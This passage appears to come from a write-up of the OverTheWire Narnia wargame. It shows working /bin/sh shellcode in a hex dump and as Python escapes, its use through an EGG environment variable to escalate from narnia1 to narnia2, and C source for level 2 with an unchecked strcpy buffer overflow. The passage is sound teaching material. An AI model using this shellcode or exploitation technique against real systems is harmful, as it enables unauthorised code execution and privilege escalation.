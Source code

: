 ```sh
narnia1@melinda:/tmp$ export EGG=$(cat shellspawn)
```
We are ready to exploit the binary:

```sh
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```



### Step 4: Convert it to Hexadecimal

It's really useful to have a hexadecimal form of our exploit (as we will see in the next levels) so we will use ```xxd``` to read it:

```sh
narnia5@melinda:/tmp$ xxd shellspawn
0000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e350  1.Ph//shh/bin..P
0000010: 89e2 5089 e1b0 0bcd 80                   ..P......
```

Awesome! We can go ahead and test it:
```sh
narnia1@melinda:/tmp$ export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'`
narnia1@melinda:/tmp$ /narnia/narnia1
Trying to execute EGG!
$ whoami
narnia2
```


----------


## Level 2: Stack Overflow to the Return Address

### Step 1: Understanding the Problem:

The third level starts with:

```
narnia2@melinda:/narnia$ ./narnia2
Usage: ./narnia2 argument
narnia2@melinda:/narnia$ cat narnia2.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
  char buf[128];

  if(argc == 1){
    printf("Usage: %s argument\n", argv[0]);
    exit(1);
  }
  strcpy(buf,argv[1]);
  printf("%s", buf);

  return 0;
}
```


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP